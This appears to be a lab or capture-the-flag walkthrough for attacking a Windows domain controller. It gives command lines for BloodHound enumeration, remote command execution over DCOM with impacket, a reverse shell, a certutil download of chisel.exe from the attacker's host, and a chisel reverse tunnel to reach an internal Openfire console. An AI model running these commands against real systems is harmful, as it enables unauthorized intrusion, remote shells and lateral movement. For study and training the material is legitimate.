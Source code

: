 	
	
	
	
	
	
	
	
	
	
	
	
	
We need to find a way to connect to the DC. Let's try to enumerate with BloodHound.

	bloodhound-python -u '<username>' -p '<password>' --dc <commonName> -d <domainName> -c all -ns <TARGET>
	
Try to  execute commands on the machine remotely using the DCOM (Distributed Component Object Model) protocol. Try test it with ping back my Kali machine:

	impacket-dcomexec '<domainName>/<username>:<password>@<commonName' 'ping -n <IP>' -nooutput -object MMC20 -dc-ip <TARGET>

Listen on your machine for any incoming packets
	
	sudo tcpdump -i tun0 icmp
 
If it works send the command to finally obtain a reverse shell on the macine. To send our command to obtain the reverse shell,  used this handy Python script that encrypts your payload in base64 and then executes it directly from the compromised machine using PowerShell.

	https://gist.github.com/tothi/ab288fb523a4b32b51a53e542d40fe58

Once in the machine  see if we you find any others running locally and are in listening Model.

		netstat -ano | findstr '127.0.0.1:'
There's a handy tool for this, Chisel. It needs to be installed on our Kali and for the target machine, simply uploading the executable .exe is enough.

	https://github.com/jpillora/chisel
	
On target machine
	
	certutil -urlcache -f http://<IP>/chisel.exe chisel.exe
	
	/chisel.exe client <IP>:<PORT> R:<servicePort>:127.0.0.1:<servicePort>
	
On attack machine
		
	chisel server -p <PORT> --reverse
Now you can use your browser and see what it's all about. You will find the login screen for Openfire Administration Console and  even have its version


















